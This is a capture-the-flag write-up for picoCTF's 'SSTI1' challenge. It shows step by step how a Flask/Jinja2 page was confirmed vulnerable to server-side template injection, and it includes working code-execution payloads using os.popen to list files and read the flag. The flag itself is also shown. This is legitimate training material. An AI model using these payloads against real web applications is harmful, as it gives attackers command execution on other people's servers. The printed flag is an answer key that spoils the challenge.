



# SSTI1

`Category: Web Exploitation` · `Source: picoCTF` · `Difficulty: Easy`

> I made a cool website where you can announce whatever you want! Try it out!
> I heard templating is a cool and modular way to build web apps! Check out my website

---

## First look

The website is a single page with one text field. You submit some text, and the site
"announces" it back to you.



The challenge name (SSTI, for Server-Side Template Injection) and the description's insistence
on *templating* are clear hints. The vulnerability shows up when user input is dropped straight
into a server-side template: instead of staying plain data, the input gets interpreted as
template code and run by the engine.

So I sent a small expression that is harmless but tells me a lot. Instead of a plain calculation
I multiplied a string by a number:

```
{{7*'7'}}
```




The server returned `7777777` instead of the literal `{{7*'7'}}`, which already tells me two
things. The input is evaluated, so the SSTI is confirmed. And repeating a string when you
multiply it by an integer is Python behaviour, so I have a good guess about the backend before
even reading the headers.

> One detail that caught me: my first request with `curl` only returned a "Redirecting to
> /announce" page. The form issues a 307 redirect that keeps the POST body, so I just had to
> follow it with `curl -L`. In the browser the redirect happens on its own.

---

## Identifying the backend

The string test pointed at Python. The response headers confirm which framework:

```bash
curl -I http://rescued-float.picoctf.net:58313/
```

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.8.10
```

The `Werkzeug` and `Python` values point to a Flask application, and Flask uses Jinja2 as its
default template engine. Now I know which payloads to use.

---

## Getting the flag

Since my input is evaluated as a Jinja2 expression, I can walk through Python's objects from
inside the template until I reach the `os` module and run a shell command. A payload that works
well in Flask is:

```
{{ cycler.__init__.__globals__.os.popen('ls').read() }}
```

This lists the files in the working directory, where a file named `flag` is present. I then read
its content:

```
{{ cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

Submitting this payload in the announcement field prints the flag directly on the page:



```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}
```
